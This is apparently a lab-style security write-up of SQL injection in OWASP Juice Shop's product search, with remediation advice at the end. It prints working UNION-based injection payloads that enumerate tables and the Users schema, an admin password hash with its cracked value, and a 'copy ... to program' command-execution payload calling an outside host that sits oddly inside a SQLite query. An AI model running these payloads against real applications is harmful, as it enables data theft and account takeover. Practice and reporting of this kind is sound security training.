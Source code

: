 # 1 - SQL Injection in Product Search
**Category:** A03 – Injection

---
## Overview
During testing of the product search functionality in OWASP Juice Shop, a **SQL Injection vulnerability** was discovered.  
The application fails to properly sanitize user input before embedding it into SQL queries, allowing attackers to manipulate the query logic and extract sensitive data from the underlying SQLite database.

---
## Proof of Concept

### Vulnerable Query Construction
```sql
SELECT * FROM Products 
WHERE (
  (name LIKE '% %' 
   OR description LIKE '%'copy (SELECT '') to program 'nslookup http://0.0.0.0:8000/' %')
  AND deletedAt IS NULL
) 
ORDER BY name;
```
This payload modified the SQL logic, demonstrating injection.

### Database Enumeration (tables)
```sql
%')) UNION SELECT 1, '', '', 0, 0, '', '', '', name
FROM sqlite_master
WHERE type='table'
LIMIT 1 OFFSET 0 -- 
```

**Tables discovered:**
- Addresses  
- BasketItems  
- Baskets  
- Captchas  
- Cards  
- Challenges  
- Complaints  
- Deliveries  
- Feedbacks  
- ImageCaptchas  
- Memories  
- PrivacyRequests  
- Products  
- Quantities  
- Recycles  
- SecurityAnswers  
- SecurityQuestions  
- Users  
- Wallets  
- sqlite_sequence

### Users Table Schema (extracted)
```sql
%')) UNION SELECT 1, '', '', 0, 0, '', '', '', sql
FROM sqlite_master
WHERE tbl_name = 'Users' AND type = 'table'
LIMIT 1 OFFSET 0; -- 
```

**Schema fields identified:**
- `id` — INTEGER, primary key  
- `username` — VARCHAR(255)  
- `email` — VARCHAR(255), unique  
- `password` — VARCHAR(255)  
- `role` — VARCHAR(255)  
- `deluxeToken` — VARCHAR(255)  
- `lastLoginIp` — VARCHAR(255)  
- `profileImage` — VARCHAR(255)  
- `totpSecret` — VARCHAR(255)  
- `isActive` — TINYINT(1)  
- `createdAt` — DATETIME (NOT NULL)  
- `updatedAt` — DATETIME (NOT NULL)  
- `deletedAt` — DATETIME (NULL)

### Sensitive Data Disclosure (example response)
```json
{
  "id": 1,
  "name": "admin@juice-sh.op",
  "description": "0192023a7bbd73250516f069df18b500",
  "price": 0,
  "deluxePrice": 0
}
```

This hash is an MD5 Hash, and the unhashed password was found at https://crackstation.net/ 

![Pasted image 20250810150612](Pasted%20image%2020250810150612.png)

**Recovered credential (hash cracked):**
```
admin@juice-sh.op : admin123
```

### SecurityAnswers Table (structure)
- `UserId` — INTEGER, UNIQUE, references `Users(id)`, ON DELETE NO ACTION, ON UPDATE CASCADE  
- `SecurityQuestionId` — INTEGER, references `SecurityQuestions(id)`, ON DELETE NO ACTION, ON UPDATE CASCADE  
- `id` — INTEGER, PRIMARY KEY, AUTOINCREMENT  
- `answer` — VARCHAR(255)  
- `createdAt` — DATETIME, NOT NULL  
- `updatedAt` — DATETIME, NOT NULL

---

## Impact
- **Authentication bypass:** Admin account compromised via recovered password.  
- **Data breach:** Disclosure of usernames, emails, and password hashes.  
- **Lateral movement:** Access to additional sensitive tables (e.g., security answers).  
- **Potential RCE:** Use of `copy ... to program`-style payloads indicates risk if backend/DB integrations are misconfigured.

**Severity:** Critical (CVSS high/critical range)

---

## Recommendations
1. **Use parameterized queries / prepared statements** everywhere user input touches SQL.  
2. **Input validation/allowlisting** for search parameters (reject control characters, quotes, SQL metacharacters).  
3. **Harden credential storage:** Replace MD5 with a Hashing algorithm and per-user salts.  
4. **Least-privilege DB account:** Restrict access to schema tables (`sqlite_master`) and unnecessary permissions.  
5. **Error handling:** Return generic errors; avoid leaking SQL/stack details.  
6. **Defense-in-depth:** Web Application Firewall (WAF) rules for common SQLi patterns; monitoring/alerting on anomalies.  
